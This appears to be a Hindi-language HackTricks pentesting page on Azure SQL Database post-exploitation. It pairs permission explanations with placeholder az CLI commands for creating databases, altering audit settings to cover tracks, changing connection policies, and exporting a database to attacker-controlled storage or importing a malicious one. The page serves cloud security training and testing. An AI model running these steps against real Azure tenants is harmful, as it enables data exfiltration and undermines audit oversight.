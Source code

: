 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

SQL Database के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

इन अनुमतियों के साथ, एक हमलावर समझौता किए गए वातावरण में डेटाबेस बना और अपडेट कर सकता है। यह पोस्ट-एक्सप्लॉइटेशन गतिविधि एक हमलावर को दुर्भावनापूर्ण डेटा जोड़ने, डेटाबेस कॉन्फ़िगरेशन को संशोधित करने, या आगे की स्थिरता के लिए बैकडोर डालने की अनुमति दे सकती है, जिससे संचालन में बाधा आ सकती है या अतिरिक्त दुर्भावनापूर्ण क्रियाओं को सक्षम किया जा सकता है।
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

इन अनुमतियों के साथ, एक हमलावर समझौता किए गए वातावरण में elasticPools बना और अपडेट कर सकता है। यह पोस्ट-एक्सप्लॉइटेशन गतिविधि एक हमलावर को दुर्भावनापूर्ण डेटा जोड़ने, डेटाबेस कॉन्फ़िगरेशन को संशोधित करने, या आगे की स्थिरता के लिए बैकडोर डालने की अनुमति दे सकती है, जो संभावित रूप से संचालन को बाधित कर सकती है या अतिरिक्त दुर्भावनापूर्ण क्रियाओं को सक्षम कर सकती है।
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

इस अनुमति के साथ, आप Azure SQL Server पर ऑडिटिंग सेटिंग्स को संशोधित या सक्षम कर सकते हैं। यह एक हमलावर या अधिकृत उपयोगकर्ता को ऑडिट कॉन्फ़िगरेशन में हेरफेर करने की अनुमति दे सकता है, संभावित रूप से ट्रैक को कवर करने या ऑडिट लॉग को उनके नियंत्रण में किसी स्थान पर पुनर्निर्देशित करने की अनुमति दे सकता है। यह सुरक्षा निगरानी में बाधा डाल सकता है या इसे क्रियाओं का ट्रैक रखने में सक्षम बना सकता है। नोट: Blob Storage का उपयोग करके Azure SQL Server के लिए ऑडिटिंग सक्षम करने के लिए, आपको एक स्टोरेज खाता संलग्न करना होगा जहाँ ऑडिट लॉग को सहेजा जा सके।
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

इस अनुमति के साथ, आप Azure SQL Server की कनेक्शन नीतियों को संशोधित कर सकते हैं। इस क्षमता का उपयोग सर्वर-स्तरीय कनेक्शन सेटिंग्स को सक्षम या बदलने के लिए किया जा सकता है।
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### `Microsoft.Sql/servers/databases/export/action`

इस अनुमति के साथ, आप Azure SQL Server से एक डेटाबेस को एक स्टोरेज अकाउंट में निर्यात कर सकते हैं। एक हमलावर या अधिकृत उपयोगकर्ता जिसके पास यह अनुमति है, वह डेटाबेस से संवेदनशील डेटा को एक ऐसी जगह पर निर्यात करके निकाल सकता है जिसे वह नियंत्रित करता है, जिससे डेटा लीक का महत्वपूर्ण जोखिम होता है। इसे करने के लिए स्टोरेज कुंजी जानना महत्वपूर्ण है।
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### `Microsoft.Sql/servers/databases/import/action`

इस अनुमति के साथ, आप Azure SQL Server में एक डेटाबेस आयात कर सकते हैं। एक हमलावर या अधिकृत उपयोगकर्ता जिसके पास यह अनुमति है, संभावित रूप से दुर्भावनापूर्ण या हेरफेर किए गए डेटाबेस अपलोड कर सकता है। इससे संवेदनशील डेटा पर नियंत्रण प्राप्त करने या आयातित डेटाबेस के भीतर हानिकारक स्क्रिप्ट या ट्रिगर्स को एम्बेड करने की संभावना हो सकती है। इसके अतिरिक्त, आप इसे अपने स्वयं के सर्वर में Azure में आयात कर सकते हैं। नोट: सर्वर को Azure सेवाओं और संसाधनों को सर्वर तक पहुंचने की अनुमति देनी चाहिए।
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```
{{#include ../../../banners/hacktricks-training.md}}
